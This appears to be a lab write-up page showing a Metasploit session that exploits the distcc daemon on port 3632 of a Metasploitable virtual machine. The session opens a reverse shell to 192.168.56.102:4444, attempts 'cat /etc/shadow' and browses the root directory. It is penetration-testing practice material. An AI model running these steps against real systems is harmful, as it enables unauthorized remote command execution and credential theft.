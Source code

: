 # Attacking on Port 3632

    msf > search distccd
    [!] Module database cache not built yet, using slow search

    Matching Modules
    ================

       Name                           Disclosure Date  Rank       Description
       ----                           ---------------  ----       -----------
       exploit/unix/misc/distcc_exec  2002-02-01       excellent  DistCC Daemon Command Execution


    msf > use exploit/unix/misc/distcc_exec
    msf exploit(distcc_exec) > show options

    Module options (exploit/unix/misc/distcc_exec):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOST                   yes       The target address
       RPORT  3632             yes       The target port (TCP)


    Exploit target:

       Id  Name
       --  ----
       0   Automatic Target


    msf exploit(distcc_exec) > set RHOST 192.168.56.101
    RHOST => 192.168.56.101
    msf exploit(distcc_exec) > show options

    Module options (exploit/unix/misc/distcc_exec):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOST  192.168.56.101   yes       The target address
       RPORT  3632             yes       The target port (TCP)


    Exploit target:

       Id  Name
       --  ----
       0   Automatic Target


    msf exploit(distcc_exec) > run

    [*] Started reverse TCP double handler on 192.168.56.102:4444 
    [*] Accepted the first client connection...
    [*] Accepted the second client connection...
    [*] Command: echo nE9gvG9B7m55uIEr;
    [*] Writing to socket A
    [*] Writing to socket B
    [*] Reading from sockets...
    [*] Accepted the first client connection...
    [*] Accepted the second client connection...
    [*] Accepted the first client connection...
    [*] Accepted the second client connection...
    [*] Command: echo mdU5t66CQrpVwxUT;
    [*] Writing to socket A
    [*] Writing to socket B
    [*] Reading from sockets...
    [*] Reading from socket B
    [*] B: "nE9gvG9B7m55uIEr\r\n"
    [*] Matching...
    [*] A is input...
    [*] Command shell session 3 opened (192.168.56.102:4444 -> 192.168.56.101:40013) at 2018-05-23 05:35:54 +0000
    [*] Command: echo l8fLOwUcNqjZJwik;
    [*] Writing to socket A
    [*] Writing to socket B
    [*] Reading from sockets...

    cat /etc/shadow
    cat: /etc/shadow: Permission denied
    cat /etc
    cat: /etc: Is a directory
    ls
    4451.jsvc_up
    cache6wg0s8jar
    cache6wg0s9jar
    cachedgnvv4jar
    cachedgnvv6jar
    cachedgnvv8jar
    cachedgnvvajar
    cachedgnvvcjar
    cachee3522ejar
    cachee3522fjar
    cacheiryidzjar
    cacheiryie0jar
    cacherld9lcjar
    cacherld9ldjar
    cachezkvne8jar
    cachezkvne9jar
    gconfd-msfadmin
    orbit-msfadmin
    pwd
    /tmp
    cd ..
    ls
    bin
    boot
    cdrom
    dev
    etc
    home
    initrd
    initrd.img
    lib
    lost+found
    media
    mnt
    nohup.out
    opt
    proc
    root
    sbin
    srv
    sys
    tmp
    usr
    var
    venkat
    vmlinuz
    cd roor
    sh: line 11: cd: roor: No such file or directory
    cd root
    ls -la
    total 76
    drwxr-xr-x 13 root root 4096 May 21 03:06 .
    drwxr-xr-x 22 root root 4096 May 21 05:47 ..
    -rw-------  1 root root  324 May 21 03:06 .Xauthority
    lrwxrwxrwx  1 root root    9 May 14  2012 .bash_history -> /dev/null
    -rw-r--r--  1 root root 2227 Oct 20  2007 .bashrc
    drwx------  3 root root 4096 May 20  2012 .config
    drwx------  2 root root 4096 May 20  2012 .filezilla
    drwxr-xr-x  5 root root 4096 May 21 11:23 .fluxbox
    drwx------  2 root root 4096 May 20  2012 .gconf
    drwx------  2 root root 4096 May 20  2012 .gconfd
    drwxr-xr-x  2 root root 4096 May 20  2012 .gstreamer-0.10
    drwx------  4 root root 4096 May 20  2012 .mozilla
    -rw-r--r--  1 root root  141 Oct 20  2007 .profile
    drwx------  5 root root 4096 May 20  2012 .purple
    -rwx------  1 root root    4 May 20  2012 .rhosts
    drwxr-xr-x  2 root root 4096 May 20  2012 .ssh
    drwx------  2 root root 4096 May 21 03:06 .vnc
    drwxr-xr-x  2 root root 4096 May 20  2012 Desktop
    -rwx------  1 root root  401 May 20  2012 reset_logs.sh
    -rw-r--r--  1 root root  138 May 21 03:06 vnc.log
    du
    12	./.gstreamer-0.10
    4	./Desktop
    du: cannot read directory `./.purple': Permission denied
    4	./.purple
    du: cannot read directory `./.vnc': Permission denied
    4	./.vnc
    du: cannot read directory `./.filezilla': Permission denied
    4	./.filezilla
    du: cannot read directory `./.config': Permission denied
    4	./.config
    4	./.fluxbox/styles
    4	./.fluxbox/backgrounds
    4	./.fluxbox/pixmaps
    48	./.fluxbox
    12	./.ssh
    du: cannot read directory `./.gconfd': Permission denied
    4	./.gconfd
    du: cannot read directory `./.gconf': Permission denied
    4	./.gconf
    du: cannot read directory `./.mozilla': Permission denied
    4	./.mozilla
    132	.
    df
    Filesystem           1K-blocks      Used Available Use% Mounted on
    /dev/mapper/metasploitable-root
                           7282168   1496440   5418728  22% /
    varrun                  517620       168    517452   1% /var/run
    varlock                 517620         0    517620   0% /var/lock
    udev                    517620        20    517600   1% /dev
    devshm                  517620         0    517620   0% /dev/shm
    /dev/sda1               233333     25356    195930  12% /boot






